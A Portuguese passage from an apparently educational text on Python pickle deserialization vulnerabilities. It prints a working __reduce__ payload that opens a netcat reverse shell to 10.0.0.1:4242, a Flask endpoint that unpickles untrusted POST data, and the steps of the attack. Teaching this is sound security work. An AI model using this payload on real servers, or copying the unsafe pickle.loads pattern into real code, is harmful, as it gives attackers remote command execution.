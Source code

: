 O módulo `pickle` do Python é extremamente poderoso, mas inseguro, com um aviso explícito na documentação: "O módulo pickle não é seguro. Apenas despickle dados em que você confia." Sua capacidade de executar *opcodes* torna a execução de código uma característica intrínseca.

### 5.2. O Método __reduce__(): Controle Total sobre a Instanciação de Objetos

O método `__reduce__()` permite especificar uma função e argumentos a serem executados durante o *unpickling*, oferecendo um caminho direto para RCE.

### 5.3. Estudo de Caso: De um Objeto pickle a uma Shell Reversa

**Código do Payload do Atacante**:

```python
import pickle
import base64
import os

class RCE:
    def __reduce__(self):
        cmd = ('rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.0.0.1 4242 > /tmp/f')
        return (os.system, (cmd,))

pickled = pickle.dumps(RCE())
print(base64.urlsafe_b64encode(pickled))
```

**Código do Servidor Vulnerável**:

```python
from flask import Flask, request
import pickle
import base64

app = Flask(__name__)

@app.route('/process', methods=['POST'])
def process_data():
    encoded_data = request.data
    decoded_data = base64.urlsafe_b64decode(encoded_data)
    deserialized_object = pickle.loads(decoded_data)
    return "Data processed."
```

**Execução do Ataque**: O atacante envia o *payload* Base64 via POST para `/process`. O servidor desserializa, executa o comando via `__reduce__()`, e o atacante recebe uma *shell* reversa.

**Comparação por Ecossistema**:

- **Python**: Exploração trivial devido ao `__reduce__()`, quase sempre resultando em RCE.
- **PHP**: Requer cadeias de gadgets, mas é viável devido a frameworks populares.
- **Java**: Mais complexo, exigindo cadeias longas e dependências específicas.
